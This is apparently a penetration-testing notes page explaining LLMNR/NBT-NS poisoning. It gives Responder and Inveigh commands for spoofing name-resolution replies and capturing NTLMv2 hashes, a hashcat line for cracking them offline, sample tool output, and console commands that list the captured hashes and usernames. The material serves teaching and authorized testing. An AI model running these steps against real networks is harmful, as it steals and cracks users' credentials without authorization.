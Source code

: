 ```yaml
---
title: Port 5355 - LLMNR/NBT-NS Poisoning
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - pentesting
  - port
  - "5355"
---
```

# LLMNR/NBT-NS Poisoning

[Link-Local Multicast Name Resolution](https://datatracker.ietf.org/doc/html/rfc4795) (LLMNR) and [NetBIOS Name Service](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc940063(v=technet.10)?redirectedfrom=MSDN) (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails.

If a machine attempts to resolve a host but DNS resolution fails, typically, the machine will try to ask all other machines on the local network for the correct host address via LLMNR. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts.

It uses port `5355` over UDP natively. If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. NBT-NS utilizes port `137` over UDP.

The kicker here is that when LLMNR/NBT-NS are used for name resolution, ANY host on the network can reply. This is where we come in with `Responder` to poison these requests.


## How does a typical attack work

1. A host attempts to connect to the print server at \\print01.inlanefreight.local, but accidentally types in \\printer01.inlanefreight.local.
2. The DNS server responds, stating that this host is unknown.
3. The host then broadcasts out to the entire local network asking if anyone knows the location of \\printer01.inlanefreight.local.
4. The attacker (us with `Responder` running) responds to the host stating that it is the \\printer01.inlanefreight.local that the host is looking for.
5. The host believes this reply and sends an authentication request to the attacker with a username and NTLMv2 password hash.
6. This hash can then be cracked offline or used in an SMB Relay attack if the right conditions exist.

## Tools

Several tools can be used to attempt LLMNR & NBT-NS poisoning:

|**Tool**|**Description**|
|---|---|
|[Responder](https://github.com/lgandx/Responder)|Responder is a purpose-built tool to poison LLMNR, NBT-NS, and MDNS, with many different functions.|
|[Inveigh](https://github.com/Kevin-Robertson/Inveigh)|Inveigh is a cross-platform MITM platform that can be used for spoofing and poisoning attacks.|
|[Metasploit](https://www.metasploit.com/)|Metasploit has several built-in scanners and spoofing modules made to deal with poisoning attacks.|

## From Linux

### Responder

Listening with responder

```bash
sudo responder -I ens224 -A -wf
# sudo privileges or root to make sure that all ports needed are available on our attack host for it to function best.
# -w: The use of the -w flag utilizes the built-in WPAD proxy server. This can be highly effective, especially in large organizations, because it will capture all HTTP requests by any users that launch Internet Explorer if the browser has Auto-detect settings enabled.
# -f: attempts to fingerprint the remote host operating system and version.
```

With this configuration shown above, Responder will listen and answer any requests it sees on the wire.

All saved Hashes are located in Responder's logs directory (`/usr/share/responder/logs/`). 

**NetNTLMv2 hashes are very useful once cracked, but cannot be used for techniques such as pass-the-hash**, meaning we have to attempt to crack them offline with [hashcat](hashcat.md) or [johntheripper](john-the-ripper.md). For example, in the case of a  NetNTLMv2 hash, we can copy the hash to a file and attempt to crack it using the hashcat module 5600. 

```shell-session
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt 
```

[See hashcat for other modules beside 5600](hashcat.md).

> Hashes are also stored in a SQLite database that can be configured in the `Responder.conf` config file, typically located in `/usr/share/responder` unless we clone the Responder repo directly from GitHub.


## From Windows

### Inveigh

[https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

Mitre ATT&CK lists this technique as [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.

LLMNR & NBT-NS poisoning is possible from a Windows host as well. 

Inveigh is a cross-platform .NET IPv4/IPv6 machine-in-the-middle tool for penetration testers. The repo contains the primary C# version as well as the legacy PowerShell version.

Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.

#### Powershell version

The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version (in the belowed section).
Configurable parameters in inveigh: [https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters)

```
# Install the module
Import-Module .\Inveigh.ps1

# List parameters
(Get-Command Invoke-Inveigh).Parameters

# Start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file.
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```


#### C# Inveigh (InveighZero)

Before we can use the C# version of the tool, we have to compile the executable. 

```powershell
.\Inveigh.exe
```


Results:

```powershell
[*] Inveigh 2.0.4 [Started 2022-02-28T20:03:28 | PID 6276]
[+] Packet Sniffer Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[ ] DHCPv6
[+] DNS Packet Sniffer [Type A]
[ ] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[ ] MDNS
[ ] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[ ] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[ ] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Tools]
[+] Previous Session Files (Not Found)
[*] Press ESC to enter/exit interactive console
[!] Failed to start HTTP listener on port 80, check IP and port usage.
[!] Failed to start HTTPv6 listener on port 80, check IP and port usage.
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[-] [20:03:31] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:03:31] LLMNR(AAAA) request [academy-ea-web0] from 
```


- `[+]`  default option and enabled by default
- `[ ]`  disabled options .

**Console access:** 

Press ESC to enter/exit interactive console. The console gives us access to captured credentials/hashes, allows us to stop Inveigh, and more.

```powershell-session
# List commands
> HELP

# view unique captured hashes
>  GET NTLMV2UNIQUE

#  see which usernames we have collected.
GET NTLMV2USERNAMES
```